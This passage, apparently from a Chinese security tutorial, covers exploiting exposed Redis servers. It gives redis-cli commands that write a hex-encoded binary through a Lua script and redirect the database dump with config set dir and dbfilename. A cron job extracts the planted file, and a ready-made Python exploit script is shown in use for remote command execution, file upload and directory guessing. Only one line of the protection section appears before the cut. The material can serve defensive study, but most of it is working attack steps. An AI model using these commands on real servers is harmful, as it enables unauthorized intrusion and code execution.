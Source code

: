 保存以上代码为a.lua，变量data保存的是程序的16进制编码，执行


```bash
redis-cli --eval a.lua -h *.*.*.*
```

由于redis不支持在lua中调用save因此需要手动执行save操作,并且删除key data，恢复dir等。


```bsah
redis-cli save -h *.*.*.*
redis-cli config set dir *** -h *.*.*.*
redis-cli config set dbfilename *** -h *.*.*.*
redis-cli config set rdbcompression * -h *.*.*.*
```

目前写入的文件前后是存在垃圾数据的，下一步通过写计划任务调用python或者系统命令提取出二进制文件（写文件之在数据前后加入了 |||作为提取最终文件的标识）。


```
*/1 * * * * python -c 'open("/tmp/rst","a+").write(open("/tmp/t").read().split("|||")[1])'
```

/tmp/rst为最终上传的文件。

(5).傻瓜式python脚本

From:https://raw.githubusercontent.com/00theway/redis_exp/master/redis_exp.py


```bash
执行命令
需要root权限，每次添加计划任务前先获取服务器时间，然后根据获取的时间设置执行计划任务的时间，确保命令被执行一次，避免多次执行引发服务器异常。
    python redis_exp.py --host *.*.*.* -c 'id'

上传文件
上传携带脏数据的文件不需要root权限，上传二进制文件需要root权限，先上传带有脏数据的文件，在文件前后插入特征字符串，然后添加计划任务截取数据
    python redis_exp.py --host *.*.*.* -l /data/payload.py -r /tmp/p.py

暴力猜解目录
不需要root权限，利用 config set dir 'xx' 报错进行目录猜解
    python redis_exp.py --host *.*.*.* -f p.txt

可以通过-p参数更改默认端口，-t参数更改等待时间
```

![](images/15893379868189.png)


![](images/15893379903044.png)


(6).批量验证

From:https://github.com/Ridter/hackredis

### 3.防护措施

1.禁止一些高危命令
